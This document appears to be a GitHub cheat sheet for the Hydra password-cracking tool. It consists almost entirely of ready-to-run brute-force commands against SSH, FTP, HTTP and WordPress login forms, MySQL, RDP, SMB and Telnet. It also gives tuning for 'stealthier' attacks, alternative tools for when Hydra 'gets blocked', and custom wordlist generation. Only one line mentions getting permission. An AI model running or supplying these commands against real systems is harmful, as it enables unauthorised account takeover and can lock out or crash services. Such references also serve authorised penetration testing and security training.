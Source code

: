 # Hydra Cheat Sheet: The Password Cracking King

Hydra is a fast and flexible network logon cracker. It's great for brute-forcing passwords on various services.

## Basic Syntax
```bash
hydra [options] <service://server> <username or list> <password or list>
```

---

## 1. Most Common Attacks

### SSH Brute Force
```bash
# Attack a single user with a password list
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100

# Attack a user list with a single password
hydra -L users.txt -p "password123" ssh://192.168.1.100

# Attack with a user list and password list
hydra -L users.txt -P passwords.txt ssh://192.168.1.100

# Specify port (if not default 22)
hydra -l admin -P passwords.txt ssh://192.168.1.100 -s 2222
```

### HTTP Login Forms
```bash
# Basic POST request (most common)
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login:username=^USER^&password=^PASS^:Invalid"

# GET request
hydra -l admin -P passwords.txt 192.168.1.100 http-get-form "/login:user=^USER^&pass=^PASS^:Invalid"

# With custom success/failure messages
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login:user=^USER^&pass=^PASS^:Invalid password|Login failed"
```

### FTP Brute Force
```bash
# Anonymous login check first!
ftp 192.168.1.100
# Try username: anonymous, password: anonymous or blank

# Then brute force
hydra -L users.txt -P passwords.txt ftp://192.168.1.100

# Specific user
hydra -l admin -P passwords.txt ftp://192.168.1.100
```

---

## 2. Important Options

| Option | Description | Example |
|--------|-------------|---------|
| `-l` | Single username | `-l admin` |
| `-L` | Username list file | `-L users.txt` |
| `-p` | Single password | `-p password123` |
| `-P` | Password list file | `-P rockyou.txt` |
| `-s` | Port number | `-s 8080` |
| `-t` | Tasks (parallel connections) | `-t 16` |
| `-V` | Verbose mode (show attempts) | `-V` |
| `-f` | Stop after first found login | `-f` |
| `-vV` | Very verbose (show each attempt) | `-vV` |
| `-e` | Additional checks | `-e nsr` |

### The `-e` flag options:
- `n` - try null password
- `s` - try the login as password
- `r` - try reverse login as password

```bash
# Try "admin", "admin admin", and blank password
hydra -l admin -P passwords.txt -e nsr ssh://192.168.1.100
```

---

## 3. Service-Specific Examples

### WordPress Login
```bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered"
```

### Basic HTTP Authentication
```bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-get /admin
```

### MySQL Database
```bash
hydra -L users.txt -P passwords.txt mysql://192.168.1.100
```

### RDP (Windows Remote Desktop)
```bash
hydra -L users.txt -P passwords.txt rdp://192.168.1.100
```

### SMB (Windows File Sharing)
```bash
hydra -L users.txt -P passwords.txt smb://192.168.1.100
```

### Telnet
```bash
hydra -L users.txt -P passwords.txt telnet://192.168.1.100
```

---

## 4. Performance Tuning

```bash
# Faster attack with more parallel connections (default: 16)
hydra -l admin -P passwords.txt -t 32 ssh://192.168.1.100

# Slower/stealthier attack (fewer connections)
hydra -l admin -P passwords.txt -t 4 ssh://192.168.1.100

# Wait between attempts (milliseconds)
hydra -l admin -P passwords.txt -w 100 ssh://192.168.1.100
```

---

## 5. Practical Examples

### Attack SSH with Common Passwords
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 -V ssh://192.168.1.100
```

### Attack Web Form with Username List
```bash
hydra -L users.txt -p "password123" -V 192.168.1.100 http-post-form \
"/login:username=^USER^&password=^PASS^:Invalid"
```

### Quick WordPress Attack
```bash
hydra -l admin -P /usr/share/wordlists/common_passwords.txt -f -V \
192.168.1.100 http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:ERROR"
```

### Stealthy Attack
```bash
hydra -l admin -P passwords.txt -t 2 -w 30 -V ssh://192.168.1.100
```

---

## 6. Finding the Right Form Parameters

1. **Intercept the login request with Burp Suite**
2. **Note the:**
   - URL path (`/login`)
   - Parameters (`user=admin&pass=password`)
   - Failure response ("Invalid login")

3. **Build your hydra command:**
```
http-post-form "/login:user=^USER^&pass=^PASS^:Invalid login"
```

---

## 7. Tips & Best Practices

1. **Always get permission** before attacking
2. **Start with common passwords** first (`rockyou.txt`)
3. **Use `-t` carefully** - too many threads can crash services
4. **Try `-e nsr`** to catch easy passwords
5. **Check for lockout policies** - don't lock accounts
6. **Use `-f`** to stop after first success
7. **Save results** with `-o output.txt`

---

## 8. Password List Management

### Common Wordlists Location:
```bash
/usr/share/wordlists/
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/dirbuster/*
/usr/share/wordlists/metasploit/*
```

### Create Custom Wordlists:
```bash
# Based on target website content
cewl http://target.com -w custom_words.txt

# Common password patterns
crunch 6 8 1234567890 -o numbers.txt
```

---

## 9. Alternative Tools

If Hydra is too loud or gets blocked, try:
```bash
# Medusa (similar to Hydra)
medusa -h 192.168.1.100 -U users.txt -P passwords.txt -M ssh

# Patator (more stealthy)
patator ssh_login host=192.168.1.100 user=admin password=FILE0 0=passwords.txt

# Ncrack (from Nmap team)
ncrack ssh://192.168.1.100 -U users.txt -P passwords.txt
```
